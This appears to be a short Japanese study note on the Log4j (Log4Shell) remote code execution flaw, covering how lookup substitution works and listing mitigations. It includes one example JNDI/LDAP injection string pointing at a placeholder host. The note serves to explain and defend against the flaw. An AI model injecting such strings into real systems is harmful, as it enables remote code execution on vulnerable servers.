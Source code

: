 ```yaml
---
CVSS Score: 10.0 (Critical)
Vulnerability Type: Remote Code Execution (RCE)
---
```

## 概要
Java向けlog処理フレームワークのLog4jのゼロディ脆弱性、攻撃者のインジェクションによってLog4jを使用するアプリに任意のコードを実行させることができる。

## 仕組み
Log4jの文字列埋め込み機能(String substitution)を利用し、定型文に変数を埋め込むことができ
`logger.info("User {} logged in", username)`
さらに、変数として、実行できるコード(`${}`とマーク）を埋め込むことができる
`logger.info("Current user: ${sys:user.name}")`

攻撃者は、例えば悪意のコードを仕込んだサーバに対するLDAP依頼を仕込んだコードをインジェクトすれば、ログとして表示される時に実行され、悪意のあるコードをダウンロードし、実行することがある
`${jndi:ldap://example.com/data}`

## 対策
1. Log4jを脆弱性が修正された2.15.0以降のバージョンにアップデート
2. log4jのJNDI Lookupを禁止する、JNDI Lookupが通常業務に必要な環境では、最小限の許可リストを設定する
3. ネットワーク外向けの[[LDAP]],[[RMI]]コネクションを禁止する
4. WAFに攻撃行為を検知、ブロックするルールを追加git

![[URL#他のスキームのQuery]]